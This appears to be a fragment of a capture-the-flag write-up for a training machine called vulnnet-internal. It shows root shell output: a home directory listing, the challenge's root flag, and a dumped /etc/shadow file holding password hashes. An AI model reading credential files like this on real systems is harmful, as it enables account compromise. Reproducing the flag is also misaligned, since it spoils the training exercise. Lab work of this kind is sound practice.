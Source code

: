 ```
drwxr-xr-x 24 root root 4096 Feb  6  2021 ..
lrwxrwxrwx  1 root root    9 Feb  1  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-x---  6 root root 4096 Aug 11 10:47 .BuildServer
drwx------  2 root root 4096 Feb  6  2021 .cache
drwx------  4 root root 4096 Feb  6  2021 .config
drwx------  3 root root 4096 Feb  6  2021 .dbus
drwxr-xr-x  3 root root 4096 Feb  2  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
lrwxrwxrwx  1 root root    9 Feb  2  2021 .rediscli_history -> /dev/null
-rw-------  1 root root   38 Feb  6  2021 root.txt
drwx------  4 root root 4096 Feb  6  2021 .thumbnails
root@vulnnet-internal:~# cat root.txt
cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
```

```
root@vulnnet-internal:~# cat /etc/shadow
cat /etc/shadow
root:$6$fEQooO2J$Gv5PA9nNgH/R1rcyVQnoPV8ssRlrOLBM6reVaJhR8N9oqrImz7PSGdsJ2l.fXmJFFibDyUx2lbuST26Meoth70:18664:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
lightdm:*:18659:0:99999:7:::
whoopsie:*:18659:0:99999:7:::
kernoops:*:18659:0:99999:7:::
pulse:*:18659:0:99999:7:::
avahi:*:18659:0:99999:7:::
hplip:*:18659:0:99999:7:::
sys-internal:$6$xXg2RXMp$0uJrk57nc93/6/GpkBhPYdQP9LZp4FV7vIBVEGrmP6WZ5Kxmg289ZNba073J4Lr43ta7cuSfYpyU9nzlRhDyQ/:18664:0:99999:7:::
redis:*:18659:0:99999:7:::
sshd:*:18659:0:99999:7:::
statd:*:18660:0:99999:7:::
```
